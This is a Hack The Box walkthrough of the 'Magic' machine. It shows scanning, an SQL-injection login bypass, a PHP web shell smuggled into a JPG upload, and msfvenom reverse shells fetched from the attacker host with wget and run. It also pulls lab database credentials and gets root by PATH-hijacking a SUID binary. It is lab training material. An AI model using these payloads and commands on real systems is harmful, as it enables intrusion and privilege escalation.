# [Magic](https://app.hackthebox.eu/machines/241)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.185 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.185 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.185
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.185
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.185/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.185/
```


The website looks custom. Looking at the HTML source for the page shows the following link:



Start the following directory scanner looking for `php` and `txt` files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.txt -x php,txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.185/ &
```

While that runs, try to login at `/login.php` with some common credentials:



But these do not work and return a `Wrong Username or Password` JavaScript alert window. The results from the `gobuster` scan return some interesting results:

```
/login.php (Status: 200)
/assets (Status: 301)
/upload.php (Status: 302)
/index.php (Status: 200)
/images (Status: 301)
/logout.php (Status: 302)
```

Trying to browse to `upload.php` redirects to `login.php`. Try a basic SQL injection login bypass:



And this results in a valid redirection to `upload.php`:


**NOTE:** If the web form is preventing spaces, use BurpSuite to send the request:



Try uploading a PHP web shell:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```

This results in the following error:



Maybe the target is checking for file signature magic? Try a bypass:

- https://en.wikipedia.org/wiki/List_of_file_signatures

```bash
sudo apt install imagemagick
convert -size 32x32 xc:white bubba.jpg
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' >> bubba.jpg
```

Uploading this file works but code execution is not possible unless the PHP extension is used... Try intercepting the upload in BurpSuite:



The `filename` value is likely the target. Trying to set it to `bubba.php` returns the following HTML block at the top of the web page:

```html
<script>alert('Sorry, only JPG, JPEG & PNG files are allowed.')</script>
```

After messing around with the value, it seems like the application just wants the `filename` to end in `jpg/jpeg/png` since `bubba.php.png` will work. Try abusing this by adding in stream of spaces assuming the backedn target is running some shell command that will interpret spaces differently:



This returns the following HTML:

```
The file bubba.php          .jpg has been uploaded.
```

Trying to browse to `http://10.10.10.185/images/uploads/bubba.php%20%20%20%20%20%20%20%20%20%20.jpg` returns the following:


Looks promising. Try code execution:

- **NOTE:** Something may be deleting files... Try re-uploading if an HTTP 404 is returned...



Nice! Use this to get a dedicated shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
```

Then send the following command URL encoded through BurpSuite:

```bash
P='wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf'
python3 -c "import urllib.parse;print(urllib.parse.quote('$P'))"
```



And this results in a reverse shell but not `user.txt`:



After connecting, try looking for DB credentials to move laterally to `theseus`. Inside `/var/www/Magic` there is a file `db.php5` with the following content:

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

Trying the password `iamkingtheseus` does not work using `su theseus` on the target and SSH on the target seems to only accept public key authentication so trying a remote bruteforce with a targeted wordlist by modifying the password does not seem possible... Maybe the database has other credentials in it? The database is listening locallly on 3306 but the target does not have `mysql` installed to connect:



Try remote port forwarding to access the DB from Kali:

```bash
ssh -f -N -v -p 22 -R 127.0.0.1:6666:127.0.0.1:3306 user@10.10.14.25
```

However, this times out? Maybe there is a firewall rule preventing connections? Try modifying the Kali SSH server to run on a common port 443 (HTTPS):

```bash
vim /etc/ssh/sshd_config # add Port 443 after Port 22
```

Now run the following:

```bash
ssh -f -N -v -p 443 -R 127.0.0.1:6666:127.0.0.1:3306 user@10.10.14.25
```

This allows for a connection from Kali using the following command:

```bash
mysql -P 6666 -h 127.0.0.1 -u theseus -piamkingtheseus
```

Now enumerate the DB with the following MySQL:

```sql
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'Magic';
SELECT column_name FROM information_schema.columns WHERE table_name = 'login';
SELECT id,username,password FROM Magic.login;
```



It looks like the password is stored in clear text as `Th3s3usW4sK1ng`. Trying to connect using this credential works and provides `user.txt`:



After getting access to this user, it is now prossible to look at a unique SUID binary:

```bash
find / -perm -u=s -group users -type f -exec ls -lad {} \; 2>/dev/null
```



Transfer the file to Kali over FTP:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /dev/shm/
cp /bin/sysinfo /dev/shm/sysinfo
ftp 10.10.14.25
put sysinfo
```

Setup [Ghidra](https://ghidra-sre.org/) to reverse engineer the binary:

```bash
wget https://ghidra-sre.org/ghidra_9.2_PUBLIC_20201113.zip
unzip ghidra_9.2_PUBLIC_20201113.zip
sudo apt install openjdk-11-jdk --upgrade
cd ghidra_9.2_PUBLIC/
./ghidraRun
```

After creating a new non-shared project and importing the binary, the `main()` function looks like the following in the disassembly window:



Looking for strings helps clear this C++ up:



It seems like this SUID binary is calling the following commands:

```bash
lshw -short
fdisk -l
cat /proc/cpuinfo
free -h
```

Since the full paths are not specified, it should be possible to change the `PATH` environment variable and have the binary run one of the following binaries as `root`:

```bash
lshw
fdisk
cat
free
```

Use this to get a reverse shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
nc -nvlp 7777
sudo python3 -m http.server 80
# run on target as theseus
wget -O /dev/shm/lshw 10.10.14.25/bubba.root.elf
chmod +x /dev/shm/lshw
PATH=/dev/shm/ /bin/sysinfo &
```



